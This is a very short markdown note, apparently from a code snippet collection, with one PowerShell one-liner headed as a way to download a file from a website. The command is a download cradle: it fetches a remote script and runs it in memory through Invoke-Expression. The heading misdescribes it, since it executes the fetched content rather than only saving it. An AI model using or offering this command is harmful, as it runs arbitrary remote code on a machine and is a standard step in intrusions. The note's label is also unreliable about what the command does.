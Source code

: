 ## 
To Download a file from a website to the machine with powershell
`powershell IEX (New-Object Net.WebClient).DownloadString('FILE HERE')`
